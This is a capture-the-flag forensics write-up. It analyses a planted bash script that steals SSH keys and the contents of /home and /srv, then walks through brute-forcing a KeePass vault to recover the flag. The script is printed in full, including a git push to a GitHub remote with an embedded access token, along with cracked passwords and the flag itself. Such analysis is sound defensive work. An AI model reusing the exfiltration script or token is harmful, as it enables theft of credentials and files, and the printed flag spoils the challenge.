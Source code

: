 
---

## Bombardino Forensics Challenge – Writeup

### Author & Team

- **Author**: Sn4keEy3s 
- **Team**: 0M3G4_SQU4D

---

### Initial Overview

After downloading the challenge distribution, we get access to a Linux file system.

![alt text](image-8.png)

The challenge description mentions a file named `scriptiono`. Using the `locate` tool quickly reveals its location.

![alt text](image.png)

The file is located at:

```
/home/sn4keey3s/Downloads/INPT-CTF/usr/lib/tools/Bombardino_scriptino.sh
```

Here is the content of the script:

```bash
#!/bin/bash

TEMP_DIR=$(mktemp -d)
cd "$TEMP_DIR"

mkdir $TEMP_DIR/ssh-exfil

	rsync -a --prune-empty-dirs --include '*/' --include 'id_*' --include 'known_hosts' --exclude '*' /home ./ssh-exfil


	for i in $(find . -name ".ssh" -type d)
		do
			cd $i
			cd ./..
			mv .ssh ssh
			cd ./..
			cd ./..
	done

cd $TEMP_DIR
tar cfv $TEMP_DIR/ssh-exfil.tar $TEMP_DIR/ssh-exfil/

touch ./work.log

{
	echo "Starting data collection for exfiltration..."
	
	echo ""
	
	fqn=$(host -TtA $(hostname -s)|grep "has address"|awk '{print $1}') ; \
	if [[ "${fqn}" == "" ]] ; then fqn=$(hostname -s) ; fi ; \
	echo "${fqn}"

	whoami

	ip link && ip neigh && ip route && ip rule && ip maddress && ip address

} 2>&1 | tee -a ./work.log

cd $TEMP_DIR
echo $(pwd)
git init
git config --global user.email "jantofixsamaqlo@gmail.com"
git config --global user.name "jantofix12"


BRANCH_NAME="exfil-$(date +%s)"
git checkout -b "$BRANCH_NAME"


mkdir $TEMP_DIR/srv_files


cp -r /srv/* $TEMP_DIR/srv_files
cp -r /home/* $TEMP_DIR/srv_files

tar cfv $TEMP_DIR/srv_files.tar $TEMP_DIR/srv_files/
git add ssh-exfil.tar work.log srv_files.tar


git commit -m "Exfiltrated data from $(hostname) at $(date)"

git remote add origin https://jantofix12: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@github.com/jantofix12/samaqlino_forensicino_bombardini.git

git push -u origin "$BRANCH_NAME"

cd - > /dev/null
rm -rf "$TEMP_DIR"


exit
```

This script is clearly malicious. It collects sensitive data like SSH keys, network information, and contents of `/home` and `/srv`, compresses them, and then pushes them to a remote GitHub repository:

```
https://github.com/jantofix12/samaqlino_forensicino_bombardini.git
```

---

### Investigating the GitHub Repository

Let’s clone the repository.

![alt text](image-1.png)

The default branch contains what looks like a simple website, not something uploaded by the malware. Suspiciously, it seems to be a cover-up by the user `@samaqlo`.

Looking at the malware’s code, we see that each exfiltration commit is pushed to a branch named after a UNIX timestamp:

```bash
BRANCH_NAME="exfil-$(date +%s)"
```

That means we need to look at the older branches to find actual stolen data.

![alt text](image-2.png)

There are several interesting branches. One of them is `exfil-1744466130`. Let’s check it out using `git checkout`.

![alt text](image-3.png)

Inside that branch, we find the file `srv_files.tar`, which was exfiltrated by the malware. After extracting it, we see some notable files, including `secret.zip` (which is password-protected) and a `.kdbx` file – a KeePass database.

The idea now is to crack the KeePass database to extract the password that unlocks `secret.zip`.

---

### Cracking the KeePass Database

After doing a bit of OSINT on KeePass cracking tools, I came across this one:

![alt text](image-4.png)

However, this is where the real struggle began. The tool didn’t work on Pop!_OS or Ubuntu. It only ran successfully on Kali Linux. I suspect the issue is related to the `keepassxc` dependency, which might have different internal implementations or dependencies across distributions.

Eventually, I ran the following command on a colleague’s Kali machine:

```
./keepass4brute/keepass4brute.sh secret_vault.kdbx rockyou.txt
```

The password was cracked:  
`iloveyou1`

---

### Retrieving the Flag

Using that password, I opened the KeePass database.

![alt text](image-5.png)

It revealed four stored passwords. I tried each one on the zip file.

![alt text](image-6.png)

The correct password for the zip file was:  
`ArvmZbUrXzqt3dr`

Inside, we finally find the flag:  
`IDEH{bombardino_scriptino_left_no_log_in_the_loggino}`

---

Thanks for the challenge. It was well designed, though I think it would be helpful to mention the compatibility issue with non-Kali Linux systems, especially since the cracking step depends heavily on environment-specific behavior.

---
